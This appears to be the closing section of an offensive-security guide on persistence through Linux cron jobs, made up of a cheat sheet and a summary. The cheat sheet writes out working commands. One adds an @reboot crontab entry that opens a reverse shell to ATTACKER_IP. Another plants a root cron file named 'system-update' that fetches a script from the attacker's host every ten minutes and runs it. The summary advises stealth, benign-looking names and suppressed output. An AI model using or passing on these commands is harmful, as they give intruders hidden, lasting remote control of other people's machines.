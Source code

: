 ## Minimal cheat sheet (one-screen flow)
```
# 1) Verify cron
systemctl status cron 2>/dev/null || systemctl status crond 2>/dev/null

# 2) Enumerate
crontab -l 2>/dev/null
sudo ls -l /etc/crontab /etc/cron.d /etc/cron.{hourly,daily,weekly,monthly}

# 3) User-level @reboot persistence
export LHOST=ATTACKER_IP LPORT=4444
( crontab -l 2>/dev/null; echo 'SHELL=/bin/bash'; echo 'PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin'; \
  echo '@reboot /bin/bash -c "sleep 45; exec 3<>/dev/tcp/'"$LHOST"'/'"$LPORT"'; /bin/sh -i <&3 >&3 2>&3" >/dev/null 2>&1' ) | crontab -

# 4) Root-level via /etc/cron.d
sudo bash -c "cat > /etc/cron.d/system-update << 'EOF'
SHELL=/bin/bash
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MAILTO=''
*/10 * * * * root /usr/bin/curl -fsSL http://$LHOST/p.sh | /bin/bash >/dev/null 2>&1
EOF
chmod 644 /etc/cron.d/system-update; chown root:root /etc/cron.d/system-update"

# 5) Logs
# Debian/Ubuntu:
sudo tail -f /var/log/syslog | grep -i CRON
# RHEL/CentOS:
sudo tail -f /var/log/cron

# 6) Cleanup
crontab -r
sudo rm -f /etc/cron.d/system-update
```

## Summary
- Cron is a simple, reliable persistence mechanism on Linux via user crontabs or system-wide cron entries.
- Prefer @reboot for stealth persistence and periodic fetch-and-execute for resilience.
- Always set SHELL and PATH, use absolute paths, and validate via logs.
- Respect distro-specific locations and run-parts rules for cron.* directories.
- Maintain operational security: controlled scheduling, benign naming, suppressed output, and ready cleanup commands.
